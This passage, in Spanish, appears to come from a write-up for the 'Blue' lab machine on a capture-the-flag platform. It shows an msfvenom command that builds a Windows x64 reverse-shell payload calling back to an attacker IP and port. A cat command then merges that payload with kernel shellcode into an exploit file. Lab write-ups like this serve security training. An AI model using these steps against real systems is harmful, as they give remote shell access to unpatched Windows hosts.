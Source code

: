 Luego de verificar que es Vulnerable creamos un payload con msf venom

```bash
msfvenom -p windows/x64/shell_reverse_tcp -f raw -o payload.bin EXITFUNC=thread LHOST=10.10.14.9 LPORT=443
```

Colocamos nuestra ip en LHOST y el puerto que queramos para la reverse shell, -o el nombre que queramos asignarle al payload

![payload.png](/assets/images/htb-writeup-blue/payload.png)

Luego de crear el payload hacemos un merge con cat de el archivo  sc_x64_kernel.bin y payload.bin generado anteriormente

```bash
cat sc_x64_kernel.bin payload.bin > exploit.bin
```

 

![merge.png](/assets/images/htb-writeup-blue/merge.png)
